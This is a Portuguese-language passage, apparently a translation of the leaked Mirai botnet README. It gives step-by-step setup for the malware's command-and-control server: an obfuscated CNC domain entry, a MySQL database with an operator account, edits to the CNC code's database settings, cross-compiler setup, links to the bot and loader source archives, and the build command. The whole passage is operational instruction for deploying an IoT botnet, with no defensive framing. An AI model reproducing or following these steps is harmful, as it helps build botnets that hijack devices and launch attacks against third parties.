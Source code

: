     add_entry(TABLE_CNC_DOMAIN, "\x44\x57\x41\x49\x0C\x56\x4A\x47\x0C\x52\x4D\x4E\x4B\x41\x47\x0C\x41\x4D\x4F\x22", 20); // fuck.the.police.com


Alguns valores são strings, alguns são portas  (uinte16 na ordem de rede / big endian).


# Configurando o CNC

    apt-get install mysql-server mysql-client

CNC requer uma database para funcionar. Quando você instala o database, entre nele e execute
os seguintes comandos: http://pastebin.com/86d0iL9g (ref:
[`db.sql`](scripts/db.sql))

Isso irá criar uma database para você. Para adicionar seu usuário,

    INSERT INTO users VALUES (NULL, 'anna-senpai', 'myawesomepassword', 0, 0, 0, 0, -1, 1, 30, '');

Agora, vá no arquivo [`./mirai/cnc/main.go`](mirai/cnc/main.go)

edite esses valores

    const DatabaseAddr string   = "127.0.0.1"
    const DatabaseUser string   = "root"
    const DatabasePass string   = "password"
    const DatabaseTable string  = "mirai"

Para informar para o mysql server que você acabou de instalar


# Setando os cross-compilers

Cross compilers são fáceis, siga as intruções nesse link para configurar tudo.
Você deve reiniciar seu sistema ou recarregar o arquivo .bashrc para essas mudanças poderem afetar.


http://pastebin.com/1rRCc3aD (ref:
[`cross-compile.sh`](scripts/cross-compile.sh))

# Construindo o CNC+Bot

O CNC, bot e ferramentas relacionadas:

1. http://santasbigcandycane.cx/mirai.src.zip - *ESSE LINK NÃO VAI DURAR PARA
  SEMPRE, 2 SEMANAS MAX - FAÇA BACKUP!*<br>
  ![mirai.src.zip contents](scripts/images/BVc7qJs.png)
2. http://santasbigcandycane.cx/loader.src.zip - *ESSE LINK NÃO VAI DURAR PARA
  SEMPRE, 2 SEMANAS MAX - FAÇA BACKUP!*

### Como contruir bot + CNC

Na pasta do mirai, existe o script [`build.sh`](mirai/build.sh) .

    ./build.sh debug telnet
